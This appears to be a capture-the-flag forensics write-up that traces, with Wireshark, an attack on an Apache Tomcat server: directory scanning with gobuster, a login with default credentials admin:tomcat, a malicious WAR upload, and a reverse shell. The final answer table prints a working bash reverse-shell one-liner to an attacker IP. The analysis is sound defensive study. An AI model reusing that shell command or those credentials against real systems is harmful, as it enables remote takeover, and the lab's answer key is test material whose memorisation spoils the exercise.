# Tomcat Takeover

### Scenario

The SOC team has identified suspicious activity on a web server within the company's intranet. To better understand the situation, they have captured network traffic for analysis. The PCAP file may contain evidence of malicious activities that led to the compromise of the Apache Tomcat web server. Your task is to analyze the PCAP file to understand the scope of the attack.

### Tool

- Wireshark

- OSINT (IpGeo)

### Solution

#### Question 1:

Different port but same IP source and destination. So I investigate the `Statistics > Conversations`



#### Question 2:



#### Question 3:

Filter: `http && ip.src == 14.0.0.120`

We see that directory `/admin` and `/admin-panel` is a name which like a web server admin panel





#### Question 4: 

If the attack use tool to uncover directories and files so there any many 404 response on HTTP because the web server do not always have directories and files in the tool's wordlist 



We can find the tool's name in `User-Agent` of the `GET` request before the HTTP 404 packet happended



#### Question 5:

If we want access to the directory which relate to admin panel, we have to authorize. So I focus on the packet has authorization response. After the attack, we observe a 200 server response, which means the attack was successful. By examining the stream, we can determine which directory the attacker accessed



#### Question 6:

The request before first 200 response contain correct credential used to login



#### Question 7:

After authorized, we see that there is a HTTP POST packet which upload something. Follow that and we have the name





#### Question 8:

Continue follow HTTP stream after attacker upload the malicious file, we will have the answer



### Final Answer

| Question | Answer |
|---|----|
| Question 1 | `14.0.0.120` | 
| Question 2 | `China` | 
| Question 3 | `8080` |
| Question 4 | `gobuster` |
| Question 5 | `/manager`|
| Question 6 | `admin:tomcat` |
| Question 7 | `JXQOZY.war` |
| Question 8 | `/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'` |

